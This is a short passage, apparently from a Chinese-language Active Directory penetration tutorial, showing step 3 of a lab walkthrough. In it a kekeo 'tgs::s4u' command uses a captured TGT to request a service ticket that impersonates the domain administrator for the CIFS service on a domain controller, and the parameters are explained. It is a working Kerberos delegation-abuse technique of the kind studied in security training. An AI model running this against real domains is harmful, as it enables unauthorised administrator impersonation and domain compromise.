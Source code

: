 [![](assets/1705982146-00e0db6fd8fc6e6aa66332b04e190eac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223108-8d3ca778-b7a0-1.png)  
Step 3：使用 kekeo 申请 TGS 票据

```plain
tgs::s4u /tgt:TGT_al2ex@HACKE.TESTLAB_krbtgt~hacke.testlab@HACKE.TESTLAB.kirbi /user:administrator@hacke.testlab /service:cifs/dc.hacke.testlab

#参数说明
/tgt:上一步通过 kekeo 生成的 tgt 票据
/user:想要伪造的用户名写全称（用户名@域名）
/service:想要伪造访问的服务名（服务名/主机的 FQDN 名称）
```
